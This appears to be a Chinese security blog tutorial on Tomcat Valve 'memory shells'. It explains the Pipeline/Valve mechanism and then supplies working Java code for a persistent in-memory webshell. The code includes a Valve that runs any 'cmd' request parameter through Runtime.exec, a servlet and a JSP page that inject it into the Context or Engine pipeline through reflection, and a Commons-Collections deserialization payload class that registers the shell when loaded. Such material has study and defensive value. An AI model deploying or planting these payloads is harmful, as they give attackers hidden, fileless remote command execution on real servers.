







# Valve

介绍引用于https://forum.butian.net/share/2436

在Tomcat中，Valve（阀门）是一种基本的组件，用于处理传入请求和传出响应。它们是Tomcat容器处理请求的一部分，可以被添加到特定的容器（如Engine、Host或Context）来提供额外的功能。

Valve可以被用于以下目的：

> 1. 记录日志：Valve可以用于记录访问日志、错误日志等。
> 2. 认证和授权：Valve可以用于实现用户认证和授权。
> 3. 安全性：Valve可以用于实施防火墙、IP过滤等安全性功能。
> 4. 性能监控：Valve可以用于监控请求处理性能，识别潜在的瓶颈。
> 5. 请求修改：Valve可以修改传入请求或传出响应的内容。
> 6. 负载均衡：Valve可以用于实现负载均衡策略。

Tomcat的在处理HTTP请求时，将一系列的Valve按顺序链接在一起形成一个处理管道。每个Valve负责在请求处理过程中执行特定的任务，例如认证、日志记录、安全性检查等。这样，请求就会在管道中依次经过每个Valve，每个Valve都可以对请求进行处理或者传递给下一个Valve

Tomcat中的管道机制主要包括以下几个重点：

> 1. Container：在Tomcat中，容器是处理HTTP请求的主要组件。容器可以是Engine、Host或Context，它们之间具有包含关系。一个Engine可以包含多个Host，一个Host可以包含多个Context。
> 2. Valve：Valve是用于处理请求和响应的组件，是Tomcat管道机制的核心。每个容器都可以包含一个或多个Valve。在处理请求时，请求会被送入容器的第一个Valve，然后根据配置的Valve顺序，请求会在管道中依次经过每个Valve。每个Valve都可以在处理请求的不同阶段插入自定义逻辑。
> 3. Pipeline：Pipeline是Tomcat中的管道对象，它持有一系列Valve，并负责按顺序执行这些Valve。每个容器（Engine、Host或Context）都有一个关联的Pipeline。Pipeline的执行顺序与Valve在配置文件中的顺序一致。
> 4. Valve基类和接口：Tomcat提供了`org.apache.catalina.Valve`接口和`org.apache.catalina.ValveBase`基类来方便Valve的实现。编写自定义Valve时，可以实现`Valve`接口或继承`ValveBase`类。
> 5. Valve链：Valve链是Pipeline中Valve的有序集合。请求在Valve链中依次流经每个Valve，直到到达最后一个Valve。



这里用StandarContext为例，之前提到过valve是Pipline组成的一部分，使用调用时，会先获取Pipline，然后按顺序getFirst得到第一个valve调用其invoke方法，传入request和response对象

具体的调用过程可以在https://forum.butian.net/share/2436中看到

# 实现valve内存马

在Engine、Host、Context、Warpper这四个组件中，其实都有一些固有的Valve，比如`StandardWrapperValve`，`StandardHostValve`，而这些类其实又都是继承了BaseValve

然后在valve的链式调用中，是调用其invoke方法，所以先来写一个valve类

```
class TestValve extends ValveBase{
    @Override
    public void invoke(Request request, Response response) throws IOException, ServletException {
        try {
            if (request.getParameter("cmd") != null){
                String cmd = request.getParameter("cmd");
                InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                InputStreamReader inputStreamReader = new InputStreamReader(inputStream);
                BufferedReader bufferedReader = new BufferedReader(inputStreamReader);
                String line = null;
                while ((line = bufferedReader.readLine()) != null){
                    response.getWriter().println(line);
                }
            }
        }catch (Exception e){
            e.printStackTrace();
        }
        getNext().invoke(request, response);
    }
}
```

这里直接写命令执行的valve了，反正自带了response对象

接下来看getPipline方法，在调用valve前，需要得到其Pipline



这个方法返回的是一个Pipline对象



这里对象是实现类在StandardPipline，也就是说，上面四个组件每个组件都对应有自己的Pipline，里面存在着一系列的valve，并且在StandardPipline中，看到了存在一个addValve方法，很明显是向Pipline中添加valve的



传入的值就是一个valve对象

现在思路就清晰了，可以想办法获取到StandardContext，然后获取其StandardPipline，通过addValve方法向其中加入恶意的valve，因为Valve的执行在Filter和Servlet之前，在每次访问的时候触发恶意的Valve，执行命令

写一个Servlet来实现Valve注入的情况

这里不通过ServletContext——>ApplicationContext——>StandarContext的方式来获取StandarContext了



在Request对象中，存在一个getContext方法返回的是Context对象，可以直接类型转换为StandardContext

```
package Servlet;

import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.Response;
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.valves.ValveBase;

import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.lang.reflect.Field;

@WebServlet("/valve")
public class ValveServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        try {
            Field field = req.getClass().getDeclaredField("request");
            field.setAccessible(true);
            Request request = (Request) field.get(req);
            StandardContext standardContext = (StandardContext) request.getContext();
            class TestValve extends ValveBase {
                @Override
                public void invoke(Request request, Response response) throws IOException, ServletException {
                    try {
                        if (request.getParameter("valve-cmd") != null) {
                            String cmd = request.getParameter("valve-cmd");
                            InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                            InputStreamReader inputStreamReader = new InputStreamReader(inputStream);
                            BufferedReader bufferedReader = new BufferedReader(inputStreamReader);
                            String line = null;
                            while ((line = bufferedReader.readLine()) != null) {
                                response.getWriter().println(line);
                            }
                        }
                    } catch (Exception e) {
                        e.printStackTrace();
                    }
                    getNext().invoke(request, response);
                }
            }
            standardContext.addValve(new TestValve());
        }catch (Exception e){
            e.printStackTrace();
        }
    }

    @Override
    protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        super.doPost(req, resp);
    }
}
```



也可以用到其他结果组件

```java
StandardContext standardContext= (StandardContext)req.getContext();
// 获取StandardHost
StandardHost standardHost = (StandardHost) standardContext.getParent();
// 获取StandardEngine
StandardEngine standardEngine = (StandardEngine) standardHost.getParent();
```

这几个组件都继承自ContainerBase




# 写在最后

其实valve内存马也是因为它是Tomcat加载的一个组件，每一个Pipline都有对应的StandarPipline，里面存在addValve方法，可以动态注册Valve到运行的程序中

留一个JSP和反序列化的Payload

```jsp
<html>
<head>
    <title>JSP动态注入Valve</title>
</head>
<body>
<%!
    public class ShellValve extends ValveBase {
        @Override
        public void invoke(Request request, Response response) throws IOException, ServletException {
            response.setContentType("text/plain");
            response.setCharacterEncoding("utf-8");
            String cmd = request.getParameter("cmd");
            try {
                // 执行系统命令
                Process process = Runtime.getRuntime().exec(cmd);
                // 读取命令输出
                BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()));
                StringBuilder output = new StringBuilder();
                String line;
                while ((line = reader.readLine()) != null) {
                    output.append(line).append("\n");
                }

                // 等待命令执行完成
                int exitCode = process.waitFor();
                output.append("\n命令执行完成，退出码为 " + exitCode);
                // 输出命令输出结果到客户端
                response.getWriter().print(output.toString());
            } catch (IOException e) {
                e.printStackTrace();
            } catch (InterruptedException e) {
                e.printStackTrace();
            }
            getNext().invoke(request,response);
        }
    }
%>

<%
    try {
        Field fieldRequest = request.getClass().getDeclaredField("request");
        fieldRequest.setAccessible(true);
        Request req = (Request) fieldRequest.get(request);
        StandardContext standardContext= (StandardContext)req.getContext();
        StandardWrapper standardWrapper = (StandardWrapper) req.getWrapper();
        StandardHost standardHost = (StandardHost) standardContext.getParent();
        StandardEngine standardEngine = (StandardEngine) standardHost.getParent();
        // 向那个组件中添加，就使用哪个组件获取对应的StandardPipeline
        Valve shellValve = new ShellValve();
        standardEngine.getPipeline().addValve(shellValve);
    } catch (Exception e) {
        e.printStackTrace();
    }
%>
</body>
</html>
```

反序列化实现Valve内存马时，就不能继承ValveBase这个类了，而是需要实现Valve接口，因为java的单继承模式。
服务端就是接收base64编码后的序列化字符串，解码，然后反序列化，CC的版本为3.1，然后还是使用CC3

```java
public class SerValve extends com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet implements Valve {
    static {
        WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
        // StandardContext
        Context context = webappClassLoaderBase.getResources().getContext();
        context.getPipeline().addValve(new SerValve());
    }
    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public Valve getNext() {
        return null;
    }

    @Override
    public void setNext(Valve valve) {

    }

    @Override
    public void backgroundProcess() {

    }

    @Override
    public void invoke(Request request, Response response) throws IOException, ServletException {
        String cmd = request.getParameter("cmd");
        try {
            if (cmd != null && cmd != "") {
                Process process = Runtime.getRuntime().exec(cmd);
                BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()));
                StringBuilder output = new StringBuilder();
                String line;
                while ((line = reader.readLine()) != null) {
                    output.append(line).append("\n");
                }
                process.waitFor();
                response.getWriter().write(output.toString());
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
        request.getContext().getPipeline().getBasic().invoke(request,response);
    }

    @Override
    public boolean isAsyncSupported() {
        return false;
    }
}
```


参考链接：

https://forum.butian.net/share/2436